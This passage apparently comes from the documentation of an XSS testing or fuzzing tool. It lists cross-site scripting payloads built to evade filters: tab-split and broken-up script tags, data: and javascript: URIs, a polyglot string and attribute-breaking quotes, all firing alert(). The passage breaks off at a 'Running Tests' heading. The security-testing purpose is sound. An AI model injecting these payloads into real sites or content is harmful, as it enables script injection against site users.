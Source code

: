 ### Tab Variations

```python
<script>alert(1)</script>
→ <script\t>alert(1)</script>
→ <\tscript>alert(1)</script>
```

### Payload Splitting

```python
<script>alert(1)</script>
→ <scr + ipt>alert(1)</scr + ipt>
```

### Protocol Variations

#### Data URI
```python
<img src="data:image/svg+xml,<svg onload=alert(1)>">
<object data="data:text/html,<script>alert(1)</script>">
```

#### JavaScript URI
```python
<a href="javascript:alert(1)">Click</a>
<form action="javascript:alert(1)"><input type=submit></form>
```

### Polyglot Payloads

```python
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

### Context Breaking

```python
" onclick="alert(1)"
' onclick='alert(1)'
`onclick=`alert(1)`
```

### Mutation Fuzzing

Automated generation of payload mutations:
- Character substitution
- Delimiter variations
- Tag permutations
- Attribute fuzzing

## Running Tests
